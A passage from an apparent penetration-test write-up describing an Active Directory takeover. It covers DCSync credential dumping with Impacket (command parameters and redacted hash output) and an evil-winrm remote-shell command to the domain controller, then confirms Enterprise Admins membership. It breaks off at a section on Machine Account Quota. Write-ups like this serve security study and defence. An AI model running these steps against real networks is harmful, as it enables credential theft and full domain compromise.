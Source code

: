 The parameters in this command are:

- `-dc-ip 192.168.0.206`: Specifies the IP address of the domain controller
- `-just-dc`: Only extract domain credentials (not local SAM hashes)
- `CORP.LOCAL/ATTACKER-PC02\$:"s0m3p455w0rd"`: Authentication using our machine account
- `@192.168.0.206`: Target domain controller

The output revealed complete access to domain credentials:

```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
CORP.local\Administrator:500:HASH:HASH:::
Guest:501:HASH:HASH:::
krbtgt:502:HASH:HASH:::
CORP\user1:1126:HASH:HASH:::
[MANY MORE ACCOUNTS]
```

Each hash contains the username and RID, followed by the LM hash (typically empty in modern systems) and the NT hash. The krbtgt hash is gold for creating Golden Tickets, while the Administrator hash gives immediate access to domain controllers and other systems.

### Confirming Enterprise Admin Access

To verify the success of the attack, I used Evil-WinRM to establish a remote PowerShell session to a domain controller:

```bash
evil-winrm -i 192.168.0.206 -u 'ATTACKER-PC02$' -p 's0m3p455w0rd'
```

Evil-WinRM leverages Windows Remote Management to give you a remote shell on Windows systems. It runs over standard ports often allowed through firewalls (5985/5986), provides a fully interactive PowerShell session, and includes convenient features for file transfers and script execution. Once connected, I confirmed our elevated privileges:

```bash
*Evil-WinRM* PS C:\Users\ATTACKER-PC02$\Documents> net group "Enterprise Admins" /domain
Group name     Enterprise Admins
Comment        Designated administrators of the enterprise

Members

-------------------------------------------------------------------------------
Administrator            ATTACKER-PC02$          domainadmin
sql_admin                svcaccount              
The command completed successfully.
```

This completed the attack chain - from having no credentials, I was able to obtain complete control over the Active Directory forest by exploiting a series of misconfigurations.

## Machine Account Quota: The Critical Misconfiguration
